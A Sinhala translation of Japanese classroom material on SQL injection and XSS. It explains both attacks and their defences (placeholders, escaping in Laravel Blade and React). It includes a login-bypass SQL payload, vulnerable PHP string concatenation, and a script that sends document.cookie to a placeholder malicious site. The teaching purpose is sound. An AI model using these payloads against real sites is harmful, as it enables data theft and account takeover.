


# SQL injection සහ XSS ගැන

> 🇯🇵 මුල් පිටපත (ජපන් භාෂාවෙන්): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

Web app වල **input field** බොහොමයක් තිබෙනවා.
නරක චේතනා ඇති අය, ඒවාට **සාමාන්‍ය නොවන අකුරු** ඇතුළත් කර, app එක කඩාකප්පල් කිරීමට හෝ දත්ත සොරකම් කිරීමට උත්සාහ කරනවා.
මෙහිදී, web app වලට එල්ල වන සුලභ ප්‍රහාර වන **SQL injection** සහ **XSS** ගැන බලමු.

[ස්වාධීන නිර්මාණයට ආපසු යන්න](../2026_10_09/2026_10_09_資料1.md)

---

## 1. කෙටියෙන් කිව්වොත්

| නම | සම්පූර්ණ නම | කුමක් කරනවාද? | ඉලක්ක කරන ස්ථානය |
|------|-------|-----------|------------|
| **SQL injection** | SQL Injection (ඇතුළු කිරීම) | Input field එකෙන් **SQL ඇතුළු කරනවා** → දත්ත බලනවා・මකා දමනවා | **Database එක** |
| **XSS** | Cross-Site Scripting | Input field එකෙන් **JavaScript ඇතුළු කරනවා** → වෙනත් අයගේ browser එකේ ක්‍රියා කරනවා | **වෙනත් අයගේ browser එක** |

දෙකේම හේතුව එකමයි, **ඇතුළත් කළ අකුරු, එලෙසම "විධානයක්" ලෙස භාවිත කිරීමයි**.

---

## 2. SQL injection

### ප්‍රහාරය කරන්නේ කොහොමද?

Login තිරයේදී, ඇතුළත් කළ email ලිපිනය **එලෙසම SQL එකට සම්බන්ධ කරනවා** යැයි සිතන්න.

```php
// ✕ භයානක ලියන ආකාරය
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

සාමාන්‍ය කෙනෙක් `taro@example.com` ලෙස ඇතුළත් කරනවා.

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

නමුත්, නරක චේතනා ඇති කෙනෙක් `' OR '1'='1` ලෙස ඇතුළත් කළොත්…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` **සැමවිටම සත්‍ය** නිසා, **සියලුම users** ලබා ගැනෙනවා.
ඇතුළත් කරන ආකාරය අනුව, `DELETE` හෝ `DROP TABLE` ක්‍රියාත්මක කරවා, **සියලු දත්ත මකා දැමීමට** ද ඉඩ තිබෙනවා.

ප්‍රහාරයේ ගලායාම රූපසටහනකින් පෙන්වුවොත් මෙසේය.



> 💡 **උපමාවකින් කිව්වොත් "ඇණවුම් පත්‍රිකාවක්"**
> සේවකයා, පාරිභෝගිකයා ලියූ ඇණවුම් පත්‍රිකාව **එලෙසම ශබ්ද නඟා කියවන** නීතියක් තිබේ යැයි සිතන්න.
> "Ramen එකක්. **ඒ වගේම, මුදල් ලාච්චුවේ ඇති සියලු මුදල් දෙන්න**" කියා ලියා තිබුණොත්…එලෙසම ක්‍රියාත්මක වෙනවා.

### වළක්වා ගන්නේ කොහොමද?

**ඇතුළත් කළ අගය, SQL "විධානයක්" ලෙස නොව "සාමාන්‍ය අගයක්" ලෙස සලකන්න**.
මෙම ලියන ආකාරයට **placeholder** (bind) කියා කියනවා.

```php
// ◯ ආරක්ෂිත ලියන ආකාරය (? කොටසට, අගයක් ලෙස ඇතුළු වේ)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel හි Eloquent හෝ query builder භාවිත කළොත්, මෙම ලියන ආකාරය ස්වයංක්‍රීයව භාවිත වෙනවා.**

```php
// ◯ ආරක්ෂිතයි (ස්වයංක්‍රීයව placeholder බවට පත් වේ)
$user = User::where('email', $email)->first();
```

| ලියන ආකාරය | ආරක්ෂිතද? |
|-------|------|
| `User::where('email', $email)` | ◯ ආරක්ෂිතයි |
| `DB::select('... WHERE email = ?', [$email])` | ◯ ආරක්ෂිතයි |
| `DB::select("... WHERE email = '$email'")` | ✕ භයානකයි (අකුරු එලෙසම සම්බන්ධ කර ඇත) |
| `DB::raw(...)` හෝ `whereRaw(...)` වලට input එලෙසම දැමීම | ✕ භයානකයි |

> 📝 Supabase JavaScript library එකේදීත් (`supabase.from('books').select()...`), අගයන් ආරක්ෂිතව හසුරුවනවා.

---

## 3. XSS (Cross-Site Scripting)

### ප්‍රහාරය කරන්නේ කොහොමද?

දැන්වීම් පුවරුවක හෝ comment කොටසක, ඇතුළත් කළ අකුරු **එලෙසම HTML ලෙස පෙන්වනවා** යැයි සිතන්න.
නරක චේතනා ඇති කෙනෙක්, comment කොටසේ පහත පරිදි ලිව්වොත්… (URL එකේ 「悪いサイト」 කියන්නේ "නරක site එක" යන්නයි)

```html
<script>
  // මෙතැන නරක program එකක් ලියනවා
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

එම පිටුව **වෙනත් කෙනෙක් විවෘත කළ විට**, මෙම JavaScript **ඔවුන්ගේ browser එකේ ක්‍රියාත්මක වෙනවා**.
Login තොරතුරු සොරකම් කිරීම, හෝ ඔවුන්ගේ අවසරයකින් තොරව post කිරීම වැනි අවදානම් තිබෙනවා.



### වළක්වා ගන්නේ කොහොමද?

පෙන්වන විට, `<` යන්න `&lt;`, `>` යන්න `&gt;` වැනි **සාමාන්‍ය අකුරු වලට ආදේශ කර** පෙන්වන්න.
මෙයට **escape** කියා කියනවා. Escape කළ විට, `<script>` **තිරයේ අකුරු ලෙස එලෙසම** පෙන්වනවා පමණයි, ක්‍රියාත්මක වෙන්නේ නැහැ.

**Blade සහ React (Next.js) දෙකම, සාමාන්‍ය ආකාරයට ලිව්වොත් ස්වයංක්‍රීයව escape කරනවා.**

| තාක්ෂණය | ◯ ආරක්ෂිතයි (escape වේ) | ✕ භයානකයි (escape නොවේ) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **`{!! !!}` හෝ `dangerouslySetInnerHTML`, user ඇතුළත් කළ අකුරු සඳහා භාවිත කරන්න එපා**
> React හි `dangerouslySetInnerHTML` යනු, නමේම **dangerously (භයානක ලෙස)** යන්න ඇතුළත් වන තරමටම භයානක ලියන ආකාරයකි.

---

## 4. දෙකේ පොදු ලක්ෂණ

| | SQL injection | XSS |
|---|---|---|
| හේතුව | Input එක **SQL විධානයක්** ලෙස භාවිත කිරීම | Input එක **HTML・JavaScript** ලෙස භාවිත කිරීම |
| වළක්වන ආකාරය | **Placeholder** (Eloquent・query builder භාවිත කිරීම) | **Escape** (`{{ }}`・`{ }` මගින් පෙන්වීම) |
| Framework භාවිත කළොත් | ස්වයංක්‍රීයව ආරක්ෂා වෙනවා | ස්වයංක්‍රීයව ආරක්ෂා වෙනවා |

> 💡 **User ගේ input විශ්වාස කරන්න එපා**
> ආරක්ෂාවේ මූලික සිද්ධාන්තය වන්නේ, "ඇතුළත් කළ අකුරු වල මොනවා තියෙනවාද කියා අපි දන්නේ නැහැ" කියා සිතීමයි.
> Framework හි **සාමාන්‍ය ලියන ආකාරය** භාවිත කරනවා නම්, බොහෝ ප්‍රහාර ස්වයංක්‍රීයව වළක්වා ගත හැකියි.
> **සාමාන්‍ය නොවන ලියන ආකාර (`raw`・`{!! !!}`・`dangerouslySetInnerHTML`) භාවිත කරන විට පමණක්, විශේෂයෙන් සැලකිලිමත්** වන්න.

---

## 5. ඔබේ app එකේ පරීක්ෂා කර බලමු

ඔබේ app එකේ input field එකකට, පහත අකුරු ඇතුළත් කර save කර බලන්න.

```
<script>alert('XSS')</script>
```

| ප්‍රතිඵලය | අර්ථය |
|-----|------|
| තිරයේ `<script>alert('XSS')</script>` ලෙස **අකුරු වලින් එලෙසම පෙන්වුවා** | ◯ ආරක්ෂිතයි (escape වී ඇත) |
| **Alert එකක් පෙන්වුවා** | ✕ භයානකයි → පෙන්වන කොටස පරීක්ෂා කරන්න |

> ⚠️ **ඔබේම app එක හැර වෙනත් කිසිම තැනක, කිසිසේත් අත්හදා බලන්න එපා**
> වෙනත් අයගේ website වල මෙවැනි input අත්හදා බැලුවොත්, **අනවසර ප්‍රවේශයක්** ලෙස නීතියෙන් දඬුවම් ලැබිය හැකියි.

---

## 6. සාරාංශය

- **SQL injection** ＝ Input field එකෙන් **SQL** ඇතුළු කර, database එක හසුරුවනවා
- **XSS** ＝ Input field එකෙන් **JavaScript** ඇතුළු කර, වෙනත් අයගේ browser එකේ ක්‍රියාත්මක කරවනවා
- දෙකේම හේතුව **input එලෙසම විධානයක් ලෙස භාවිත කිරීමයි**
- වළක්වන ආකාරය **placeholder** (SQL) සහ **escape** (පෙන්වීම)
- Laravel・Next.js, **සාමාන්‍ය ආකාරයට ලිව්වොත් ස්වයංක්‍රීයව ආරක්ෂා වෙනවා**. `raw`・`{!! !!}`・`dangerouslySetInnerHTML` ගැන විශේෂ අවධානය යොමු කරන්න
- අත්හදා බලන්නේ **ඔබේම app එකේ පමණයි**

[ස්වාධීන නිර්මාණයට ආපසු යන්න](../2026_10_09/2026_10_09_資料1.md)
